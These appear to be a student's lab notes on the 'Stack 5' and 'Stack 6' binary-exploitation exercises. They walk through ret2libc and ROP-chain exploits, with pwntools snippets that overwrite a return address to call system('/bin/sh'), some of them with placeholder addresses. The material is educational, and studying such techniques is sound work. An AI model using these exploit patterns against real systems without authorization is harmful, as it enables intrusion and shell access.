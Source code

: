 ### Stack 5: 
#### Class Notes: 
remember to run checksec on new files NX is enabled: no place in virtual memory that is rwx which means code injection wont work code reuse is needed. 
Need to use LibC functions useful LibC functions: system passes a command to the shell; combination of fork() and exec() 

system(/bin/sh) will open a shell system always returns to use these functions we need to find LibC and understand calling convention 
2. step 1: find addresses find the address of system():
    
    ```
    p *system
    ```
    
    find the address of exit():
    
    ```
    p *exit
    ```
    
    step 2: set up arguments in the way system() expects 32 bit calling convention arguments are placed on the stack keep in mind that the ret command needs the address of the function on top of the stack before the arguments how the stack should look: address of system() <- rsp function for system to return to after completion argument step 3: use ret to call system code:
    
    ```
    offset_ret = 76 #found with cyclic
    addr_system = #p *system
    
    #/bin/sh
    addr_str = #find in memory with the search-pattern command
    addr_exit = #p *exit
    
    p.sendline(flat({offset_ret:addr_system,offset_ret+4:addr_exit,offset_ret+8:addr_str}))
    ```
    
    >[!note] you will see something like detach after child process or something. This means that it worked, probably. You will have to run it outside of GDB in order to be sure
    >
#### Useful commands: find the address of the pattern searched for:
    
    ```
    search-pattern /bin/sh address range
    ```
    
    can also use
    
    ```
    ???
    ```
    
    instead of an address range double check with
    
    ```
    x/s address
    ```
    
    grab the top 4 bytes of the stack:
    
    ```
    x/wx $esp
    ```
    

NEW

3.  _[_2:47 PM_]_
    
    ------------
    

### Stack 6: 
#### class Notes: 
similar to stack 5, but this time it is a 64bit binary main difference here is that arguments are passed through registers rather than the stack the problem here is that manipulating the registers is harder than manipulating the stack we will have to use ROP gadgets to manipulate the registers find all the possible gadgets in a binary:
    
    ```
    ROPgadget --binary (name)
    ```
    
code:
    
    ```
    #pop rdi ; ret
    addr_gad = 0x4006f3 #found with ROPgadget
    addr_gad_ret = #found with ROPgadget
    addr_binsh = #found with search-pattern
    addr_system = #found with p *system
    
    offset_ret = 104 #found with cyclic
    
    
    p.sendline(flat({offset_ret:addr_gad_ret},addr_gad,addr_binsh,addr_system,addr_exit))
    ```
    
dealing with MOVAPPS with a fun and cool gadget: just add some returns to align the stack